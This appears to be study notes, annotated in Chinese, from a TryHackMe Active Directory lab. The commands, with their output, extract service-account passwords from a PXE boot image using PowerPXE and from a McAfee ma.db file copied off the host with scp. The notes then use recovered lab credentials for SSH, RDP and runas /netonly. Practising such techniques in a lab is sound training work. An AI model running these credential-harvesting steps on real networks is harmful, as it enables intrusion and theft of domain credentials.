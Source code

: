 			--> ssh thm@THMJMP1.za.tryhackme.com | Password1@

		--> 建立資料夾	
			C:\Users\THM>cd Documents
			C:\Users\THM\Documents> mkdir 0XFK
			C:\Users\THM\Documents> copy C:\powerpxe 0XFK\
				C:\powerpxe\LICENSE
				C:\powerpxe\PowerPXE.ps1
				C:\powerpxe\README.md
			C:\Users\THM\Documents\> cd 0XFK
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
		--> 使用 TFTP 並下載 BCD 檔案來讀取 MDT 伺服器的設定
			\0XFK> tftp -i 10.200.55.202 GET "\Tmp\x64{7C1F8215-68C1-46C8-994D-7CD11B19D57C}.bcd" conf.bcd
			C: \0XFK> powershell -executionpolicy bypass
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			PS \0XFK> Import-Module .\PowerPXE.ps1
			PS \0XFK> $BCDFile = "conf.bcd"
			PS \0XFK> Get-WimFile -bcdFile $BCDFile
				>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			PS \0XFK> tftp -i 10.200.55.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			PS \0XFK> Get-FindCredentials -WimFile .\pxeboot.wim	
				>> Open pxeboot.wim
				>>>> Finding Bootstrap.ini
				>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
				>>>> >>>> UserID = svcMDT
				>>>> >>>> UserDomain = ZA
				>>>> >>>> UserPassword = PXEBootSecure1@

	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	設定檔
		--> 嘗試恢復AD憑證的絕佳探索途徑
		--> https://github.com/GhostPack/Seatbelt
		--> McAfee 將安裝期間用於連接回 Orchestrator 的憑證嵌入名為 ma.db 的檔案中
			--> scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
		--> 打開資料庫 : sqlitebrowser ma.db
			--> Browse Date 
				=> table : AGENT_REPOSITORIES
				=> DOMAIN : za.tryhackme.com
				=> AUTH_USER : svcAV
				=> AUTH_PASSWD : jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
		--> decrtpy :
			--> https://github.com/funoverip/mcafee-sitelist-pwd-decryption
			--> python3 mcafee_sitelist_pwd_decrypt.py 'jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q=='
				=> Decrypted password : MyStrongPassword!

## Enumerating Active Directory
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> http://distributor.za.tryhackme.com/creds
		=> Username: mandy.bryan Password: Dbrnjhbz1986
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> SSH :
			=> ssh za.tryhackme.com\\mandy.bryan@thmjmp1.za.tryhackme.com
		--> RDP : 
			=> xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.200.58.248 /u:mandy.bryan /p:'Dbrnjhbz1986'
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	 Credential Injection : 
	 	--> runas.exe : 將憑證注入到記憶體中
	 		=> runas.exe /netonly /user:<domain>\<username> cmd.exe
	 		=> runas.exe /netonly /user:za.tryhackme.com\mandy.bryan cmd.exe
	 			--> /netonly 希望載入網路驗證的憑證